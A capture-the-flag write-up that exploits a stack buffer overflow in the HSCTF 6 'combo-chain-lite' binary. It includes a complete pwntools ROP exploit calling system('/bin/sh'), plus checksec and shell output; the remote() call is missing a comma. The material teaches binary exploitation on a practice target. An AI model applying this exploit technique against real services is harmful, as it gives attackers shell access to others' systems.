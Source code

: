 Very obvious buffer overflow in the vuln() function. The challenge also tells us we have to do a ROP chain to solve this.

Run a quick checksec on the binary.
```shell
» checksec ./combo-chain-lite
[*] '/root/Documents/hsctf-6/pwn/combo-chain-lite/bin/combo-chain-lite'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

This is a very easy ROP challenge. If you are unfamiliar with how ROP works, you can learn more about it from my writeups of the ROP Emporium challenges [here](https://syedfarazabrar.com/writeups/rop-emporium/2019/07/19/rop-emporium-challenges.html){:target="blank"}, specifically split64, although you may have to read the previous writeups if you are very new to binary exploitation.

The exploit is shown below. system's address is given to us every run, and since the /bin/sh address is hardcoded in the binary, we can just get it out of the binary.
```python
  1 #!/usr/bin/env python
  2 
  3 from pwn import *
  4 
  5 context.log_level = 'critical'
  6 elf = ELF("./combo-chain-lite")
  7 sh = remote("pwn.hsctf.com" 3131)
  8 a = sh.recvline()
  9 
 10 system_addr = p64(int(a.split(": ")[1], 16))
 11 binsh_gen = elf.search("/bin/sh") # Creates a generator object
 12 binsh_addr = p64(next(binsh_gen)) # Gets the next address of /bin/sh
 13 pop_rdi = p64(0x0000000000401273)
 14 
 15 payload = "A"*16 # Overflow until RIP
 16 payload += pop_rdi # Jump to the pop rdi; ret; gadget
 17 payload += binsh_addr # Pop this into rdi
 18 payload += system_addr # Jump to system('/bin/sh')
 19 
 20 sh.recvuntil(": ")
 21 sh.sendline(payload)
 22 sh.interactive()
 23 
 24 sh.close()
```

We get a shell.
```shell
» python exploit.py
$ ls
combo-chain-lite  combo-chain-lite.c  exploit.py  flag
$ cat flag
hsctf{wheeeeeee_that_was_fun}
$  
```

